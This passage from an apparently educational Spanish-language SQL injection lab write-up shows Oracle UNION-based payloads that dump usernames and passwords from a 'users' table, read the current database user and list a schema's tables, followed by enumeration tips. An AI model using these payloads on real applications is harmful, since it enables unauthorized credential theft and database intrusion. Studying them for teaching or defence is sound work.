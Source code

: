 Si la aplicación tiene una tabla `users` propia:

```sql
' UNION SELECT username, password FROM users--
```

**Explicación:** Esto asume que existe una tabla de aplicación `users` con columnas `username` y `password`. Si la primera columna no admite texto, usar `NULL, username || ':' || password` o ajustar tipos según sea necesario. Para bases de datos Oracle, concatenamos con `||` y podemos convertir tipos si es necesario.

---

## Usuario conectado a la actual base de datos

```sql
' UNION SELECT NULL, USER FROM DUAL-- -
```

![Captura](./Imágenes/web_19.png)


---

## Tablas del schema

```sql
' UNION SELECT NULL, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) 
FROM all_tables WHERE owner = 'PETER') FROM DUAL-- -

```
![Captura](./Imágenes/web_18.png)


---

## Consideraciones y buenas prácticas pedagógicas

- En Oracle debemos prestar especial atención a:
    
    - Tipos de columnas: Oracle es más estricto en algunas situaciones (VARCHAR2 vs NUMBER).
        
    - Mayúsculas en nombres de objetos: muchos metadatos aparecen en mayúsculas.
        
    - Privilegios: ciertas vistas (`V$*`) requieren privilegios especiales.
        
    - Funciones específicas: `LISTAGG`, `ROWNUM`, `ROW_NUMBER()`, `HEXTORAW`, `UTL_RAW` son herramientas Oracle comunes para enumeración.
        
    
- Para automatizar enumeración en Oracle conviene probar ambas técnicas de paginación (`ROWNUM` y `OFFSET/FETCH`) y tener plantillas que manejen la conversión de hex cuando la entrada está filtrada.
    

---